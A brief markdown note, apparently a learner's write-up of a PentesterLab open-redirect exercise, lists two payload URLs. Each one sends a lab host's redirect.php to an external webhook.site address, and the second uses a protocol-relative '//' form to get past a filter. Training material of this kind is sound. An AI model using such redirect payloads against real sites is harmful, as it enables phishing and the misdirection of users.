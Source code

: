 # Pentesterlab Open Redirect

> Saikat Karmakar | AUG 26 : 2021

---

## Open Redirect

-  http://ptl-d23d3546-b69bfa5f.libcurl.so/redirect.php?uri=https://webhook.site/58360304-dcff-4f7e-b349-2552adbcbf4c


- http://ptl-004847aa-c6ed729b.libcurl.so/redirect.php?uri=//webhook.site/58360304-dcff-4f7e-b349-2552adbcbf4c